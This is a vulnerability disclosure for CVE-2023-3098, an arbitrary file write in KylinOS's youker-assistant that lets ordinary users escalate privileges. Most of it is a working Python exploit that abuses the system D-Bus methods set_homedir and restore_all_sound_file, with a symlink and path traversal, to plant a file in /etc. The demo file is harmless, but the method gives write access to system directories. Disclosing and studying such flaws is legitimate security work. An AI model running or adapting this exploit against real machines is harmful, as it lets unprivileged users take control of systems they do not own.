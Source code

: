 # Kylin OS youker-assistant arbitrary file write vuln

Author: Set3r.Pan（8691003@qq.com）\
Unit: KylinSoft（https://www.kylinos.cn/）
### CVE ID
CVE-2023-3098
## Report
### Describe
youker-assistant is an integrated tool on KylinOS Desktop to help perform daily system maintenance tasks. The restore_all_sound_file in this program has an arbitrary file writing vulnerability, which can lead to privilege escalation for ordinary users.
### Hazard level
High
### Affected version
- youker-assistant < 3.0.2-0kylin6k70-23
### POC&&EXP
ISO Download:\
https://distro-images.kylinos.cn:8802/web_pungi/download/share/HXDYtGjZm3daA4UvOTLkiPl1nB9ErM0c/

exploit.py
```
#!/usr/bin/env python3

import sys
import dbus
import os

def run_cmd(cmd):
    os.system(cmd)

def copy_file(target_dir, src_file):
    copy_cmd=f'''
        srcDir=$(mktemp -d)
        homeDir=/tmp/fakeroot/$srcDir
        srcFile={src_file}
        targetDir={target_dir}
        gdbus call --system --dest com.kylin.assistant.systemdaemon \
                        --object-path /com/kylin/assistant/systemdaemon \
                        --method com.kylin.assistant.systemdaemon.set_homedir "$homeDir"

        # prepre src dir
        mkdir -p $srcDir/stereo
        cp $srcFile $srcDir/stereo

        # prepare target dir
        mkdir -p $homeDir
        mkdir -p $homeDir/.sounds..
        cd $homeDir
        ln -s $targetDir stereo

        gdbus call --system --dest com.kylin.assistant.systemdaemon \
                        --object-path /com/kylin/assistant/systemdaemon \
                        --method com.kylin.assistant.systemdaemon.restore_all_sound_file "../../../..$srcDir"

    '''
    run_cmd(copy_cmd)

os.system('touch restore_all_sound_file.txt')
copy_file("/etc", os.path.realpath("./restore_all_sound_file.txt"))
os.system('ls -l /etc/restore_all_sound_file.txt')
```
